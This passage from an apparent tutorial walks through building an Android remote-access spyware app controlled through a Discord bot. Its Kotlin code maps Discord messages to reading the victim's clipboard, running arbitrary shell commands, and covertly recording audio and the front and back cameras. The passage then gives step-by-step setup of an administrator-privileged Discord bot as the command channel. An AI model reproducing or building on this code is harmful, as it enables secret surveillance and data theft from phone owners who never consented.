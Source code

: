 ```kotlin
        ">Get Clipboard" -> readClipboard(this,DiscordClientManager.discordClient!!)
        ">cmd" -> {
            if (argument.isNotEmpty()) {
                // Here, argument is everything after ">cmd", e.g. "ls -la /var/www/html"
                execute(argument, DiscordClientManager.discordClient!!)
            } else {
                DiscordClientManager.discordClient?.sendMessage("Command Error",">cmd <command>")
            }
        }
        ">Record Audio" -> ContextCompat.startForegroundService(this, Intent(this, AudioRecording::class.java))
        ">Record Front Cam" -> ContextCompat.startForegroundService(this, Intent(this, CamRecording::class.java).apply {putExtra("cameraId", "1")})
        ">Record Back Cam" -> ContextCompat.startForegroundService(this, Intent(this, CamRecording::class.java).apply {putExtra("cameraId", "0")})
    }


}
DiscordClientManager.discordClient?.start()
```

This code basically get the message from `onMessageReceived` function and then it will trigger the function accordingly.

```kotlin
RequestPermissionsAndExitIfDenied(this@MainActivity)
Text("it works",
    modifier = Modifier.padding(innerPadding)
)
```

The remaining part of the `onCreate` function is just requesting the permission and writing a dummy text. 

### Part 5

This is the part where I need to create one discord bot and also a discord server with the bot in it. 

- Step 1: Go to [https://discord.com/developers/applications](https://discord.com/developers/applications)
- Step 2: Go to Applications and press New Application button and give it a random name.
- Step 3: Go to OAuth2 and tick bot under `OAuth2 URL Generator` and tick administrator in bot permission.
  - it will create a URL that looks like `https://discord.com/oauth2/authorize?client_id=<cliend_id>&permissions=8&integration_type=0&scope=bot`
- Step 4: Go to Bot and enable Presence Intent, Server Members Intent and Message Content Intent.
- Step 5: Create a discord server and add your newly created bot by accessing the generated URL. 
- Step 6: Copy the bot token (Press Reset Token to generate a new token if you dont see your token) and add it into the kotlin code. 

If everything works as intended, you will see a bot added into the server. Make sure to add the bot token into the code to allow the discord bot to be enabled. 
